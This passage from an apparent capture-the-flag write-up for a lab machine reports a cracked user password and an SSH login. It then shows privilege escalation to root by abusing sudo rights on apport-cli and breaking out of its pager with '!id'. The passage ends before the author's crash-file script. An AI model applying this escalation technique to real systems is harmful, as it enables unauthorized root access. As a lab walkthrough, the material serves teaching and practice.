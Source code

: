 ![PasswordCrack](../assets/img/password_dev.png)

And we have cracked logan paul's password: tequieromucho.

We can now login as logan paul into the system using ssh and extract the user flag.

```bash
ssh logan@devvortex.htb -p 22
```

## Root Flag

### Enumeration

Try to find any programs that logan can run as a super user on the system,

```bash
sudo -l
```

Shows us that ```/usr/bin/apport-cli```  is one program that logan can run as root.

>apport automatically collects data from crashed processes and compiles a problem report in /var/crash/. This is a command line frontend for reporting those crashes to the developers

Googling to see if Apport has any known vulnerabilities shows us this:

https://bugs.launchpad.net/ubuntu/+source/apport/+bug/2016023

Essentially, running the apport-cli to check a .crash file in pager mode like the way we use the **less** command allows us to  breakout and escalate privileges.

```bash
$ sudo apport-cli -c xxx.crash
!id
uid=0(root) gid=0(root) groups=0(root)
```
### Exploit
Crash reports are usually stored at ```/var/crash```, in case you dont find a crash file here or anywhere else, you can generate one by simply crashing a process like **sleep** on linux. I did not find any crash filesand hence wrote the script to generate one:
